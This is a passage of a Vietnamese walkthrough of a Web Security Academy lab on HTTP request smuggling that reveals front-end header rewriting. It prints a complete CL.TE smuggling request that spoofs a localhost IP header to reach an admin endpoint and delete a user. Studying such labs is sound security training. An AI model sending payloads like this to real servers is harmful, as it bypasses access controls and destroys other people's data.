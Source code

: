 Kết quả:

>![](https://i.imgur.com/ea6LFLG.png)


<hr>

### Bài 8: Exploiting HTTP request smuggling to reveal front-end request rewriting

>![](https://i.imgur.com/aEbaVhF.png)

```!
In many applications, the front-end server performs some rewriting of requests before they are forwarded to the back-end server, typically by adding some additional request headers
```

Thử smuggling như các bài trước, ta thấy khi truy cập trang `/admin` sẽ có thông báo như vậy, ta cần xác định xem front-end server đã rewrite request với trường nào để backend xác định IP người dùng.

>![](https://i.imgur.com/DHFZeug.png)

Để ý ta thấy khi post tới `/` (với tham số `search`) nó sẽ reflect data mà ta search về 

>![](https://i.imgur.com/R57hd5i.png)

Vậy nếu ta smuggle 1 `POST /` (với tham số `search`) thì khi concat với request tiếp theo, nó sẽ coi phần data mà front-end đưa tới như là tham số, khi đó sẽ trả về lại cho ta dữ liệu mà phía backend nhận (cũng là dữ liệu đã được rewrite bởi FE)

>![](https://i.imgur.com/YV8TYNN.png)

Ở đây ta thấy backend server đã reflect lại request nhận từ front-end, trong đó có trường `X-nsdSWs-Ip` được FE rewrite chỉ địa chỉ IP của ta, vậy cần phải thêm trường này vào smuggling request để fake IP

Payload:

```
POST / HTTP/1.1
Host: 0af5002a04a39b71c0d6311b002500ed.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 184
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
X-nsdSWs-Ip: 127.0.0.1
Content-Length: 200
Connection: close

x=1
```

Kết quả:
